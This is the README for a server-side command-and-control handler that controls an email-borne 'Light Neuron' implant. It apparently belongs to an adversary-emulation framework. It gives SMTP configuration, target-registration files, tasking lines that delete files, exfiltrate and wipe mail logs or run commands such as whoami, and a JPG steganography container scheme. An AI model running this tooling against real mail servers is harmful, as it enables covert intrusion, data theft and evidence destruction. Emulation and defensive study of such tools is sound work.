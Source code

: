 
# Light Neuron Handler

The Light Neuron C2 handler is the server-side counterpart for the Light Neuron implant
and is specifically designed to interact with it over email.

## Components

## Usage

### Configuration

To enable and configure the Light Neuron handler within the control server, edit
the `config/handler_config.yml` from the main C2 server repo. Adjust the Light Neuron entry as needed.

- host: The SMTP server used to send emails.
- port: The SMTP server Port
- mailFrom: The email address that will appear as the sender.
- username: SMTP username
- password: SMTP password
- image_file_path: The path to the unmodified image used as the stego attachment.
- watch_dir_path: The path on the C2 server that is polled for incoming mail attachments
- recipientFilePath: The text file that holds a list of implant emails/sessions
- encryption: [true/false] used to tell the handler to encrypt traffic or use plain text traffic.


Example:
```
lightneuron:
    host: mail.evilcorp.com
    port: 25
    mailFrom: noreply@evilcorp.com
    username: "postfix"
    password: "postfix_secret_password"
    image_file_path: "/home/postfix/image.jpg"
    watch_dir_path: "/home/user/mail/attachments"
    recipientFilePath: "/path/to/target_emails.txt"
    encryption: true
    enabled: true
```

Run the `controlServer` binary as `sudo` and look for success messages in starting up the LightNeuron handler:
```
sudo ./controlServer
```

### Registering Implants
Since the LightNeuron implant doesn't beacon by design, implant session registration is approached different from other handlers. 
To register an implant session with the Lightneuron handler the handler configuration must have a `recipientFilePath` set.
 The recipient/target email addresses saved in the file will be registered with the C2 server when the server starts.


The file is a .txt documents that has a single target email per line.


Valid formatting for a recipientFilePath .txt:
```
email1@validemail.com
email99@corp.local
target00@mail.local
```

### Tasking Implants
To task an implant you need the GUID (in this case, the target email address), the command ID, and the command to execute.


The Implant will accept the following command ID's:
- Command ID 2: This command will task the implant to delete a given file.
- Command ID 3: This command ID is used to exfiltrate the email log file. It can be passed with a 0 or 1 flag. 
  - 0 will exfiltrate the file without deleting.
  - 1 will exfiltrate the file then delete it.
- Command ID 5: This command ID is used to execute a command on the target system. 

File Deletion Example:
```
./evalsC2client --set-task <GUID/EMAIL> '<cmdID> | <Path to File>'
./evalsC2client --set-task target@mail.local '2 | C:\\file.txt'
```

Email Exfiltration Example:
```
./evalsC2client --set-task <GUID/EMAIL> '<cmdID> | <Deletion Flag>'
./evalsC2client --set-task target@mail.local '3 | 0'
./evalsC2client --set-task target@mail.local '3 | 1'
```

Command execution example:
```
./evalsC2client --set-task <GUID/EMAIL> '<cmdID> | <command to execute>'
./evalsC2client --set-task target@mail.local '5 | whoami'
```


## LightNeuron Stegonagraphy
The light neuron implant uses a .jpg file to hide command and resulting output data inside. The data is stored at a particulate byte offset inside a "container". The container is a specified length of bytes prepended with the length so that the correct information can be read.

Container Layout:
```
@ xx byte offset [Container Size][Container]
```

The recieving end will read the container size and create variable to hold the container data. 
Fianlly, the recieving end will read the number of bytes contained in the container size resulting in clean output/command data.

This stegonagraphy process is bidirectional.

On the C2 side, to reduce bloat logged by the C2 server, if the output is above 1000 bytes then the entire output is written to a file. This allows for simple commands/output (eg. `whoami`, `ipconfig`) to output to the C2 log, but file exfiltration and large command output will go into specific files.

### Testing

### References

This handler uses an external email library to create and send emails over smtp using Postfix
https://github.com/xhit/go-simple-mail/v2
